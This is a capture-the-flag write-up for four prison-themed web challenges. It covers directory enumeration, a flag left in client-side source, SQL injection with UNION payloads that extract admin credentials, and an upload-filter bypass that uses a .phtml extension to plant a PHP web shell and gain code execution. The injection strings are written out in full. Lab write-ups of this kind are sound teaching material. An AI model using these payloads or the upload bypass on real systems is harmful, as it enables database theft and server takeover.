


## Paul's Dirty Secret 1

### Description

Paul, the prison's events team manager, has created a website to showcase what he does. You know that this website is used to exchange information between team members, try to find these... And maybe more !

148.113.142.201:897

### Solution

Using gobuster we found the following directory, `/notes`:

http://148.113.142.201:897/notes/

http://148.113.142.201:897/notes/fichier1.txt -> 

This is not a Lorem Ipsum !

http://148.113.142.201:897/notes/fichier2.txt -> 

Banana bread recipe : 
- Banana
- Bread
- Mix it all together

http://148.113.142.201:897/notes/fichier3.txt ->

Ideas for prison events :
- Karaoke
- Bully every prisoner


When using OPTIONS method we get the following:

```
HTTP/1.1 200 OK
date: Sat, 06 Apr 2024 23:21:59 GMT
server: Apache/2.4.57 (Debian)
allow: HEAD,GET,POST,OPTIONS
content-length: 0
content-type: httpd/unix-directory
connection: close
```

I couldnt find out how they write the notes...

## Cafetaria Meals 1

### Description

You're browsing the prison cafeteria website and notice something strange hidden in it. What is it?

148.113.142.201:504

### Solution

Looking at website it seems built with javascript angular and webpack.



The flag was in the source code in the client side at `Webpack/src/app/accueil/accueil.component.ts`.



Flag: `polycyber{you_should_4lw4y5_t4k3_a_look_at_the_5ourc3_51abff21c}`

## Bookworm 1

### Description

In the silent library of the prison, a forgotten computer looms. While books hold stories, it's on this screen that the key to your escape might be hidden.

Note: The use of tools that employ brute force is strongly discouraged and will result in a ban. Some automated tools may resort to brute force to achieve their goal. No such tool is necessary for this challenge.

148.113.142.201:29070

### Solution

We have an sql injection in:

```
GET /search.php?query='+OR+1%3d1+%3b+--+ HTTP/1.1
Host: 148.113.142.201:29070
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://148.113.142.201:29070/
DNT: 1
Connection: close
Cookie: language=en
Upgrade-Insecure-Requests: 1

``` 

We have a page `upload.php` in the comments and when browse to that location we are met with a login screen.
The login screen seems to be an authentication to a admin page.
Lets try to leverage the sqli to gain credentials and login.

Since we are probably in a books table we need to make a union to a probably table `users`.

We start by using the UNION injection with NULL to know the number of clomuns that the book table has.
After some time, we get two: `'+UNION+select+NULL,NULL+--+` because its when we put the correct amount of columns that we get results back.

Lets enumerate and get the admin credentials:

Get tables:
`'+UNION+select+TABLE_NAME,TABLE_SCHEMA+from+INFORMATION_SCHEMA.TABLES+--+`
Books - library
Admin - library

Get Admin table columns:
`'+UNION+select+TABLE_NAME,COLUMN_NAME+from+INFORMATION_SCHEMA.COLUMNS+where+table_name%3d'Admin'+--+ `
Admin - id
Admin - password
Admin - username

And we get the flag when trying to read the admin password:
`'+UNION+select+username,password+from+Admin+--+`
Librarian - R3ad-2-3scap3!
Flag - polycyber{SQL_Br3ak0ut}


## Bookworm 2

### Description

You have access to the book upload page. Bypass the protections and take control of the computer to obtain crucial information. Your escape depends on what you discover. Good luck.

148.113.142.201:29070/upload.php

### Solution

So we have the credentials:  Librarian - R3ad-2-3scap3!
This next challenge seems like a upload challenge

So after testing the upload functionality we get the path where the file is stored which is `/uploads/<file>`.
It changes the file name however it seems like it keeps the extension.
Lets try to upload a web shell.

If we try to upload a php web shell without modifying the filename and content-type, we get it.
Trying to modify the filename to `file.php` we get: `Error: Uploading .php files is not allowed. `
Trying the well known alternative `.phtml` we are sucessful. Browsing to the location we get RCE and the flag is in: `/var/www/flag.txt`

Flag: `polycyber{UPL04D_BYP4SS_SUCC3SS}`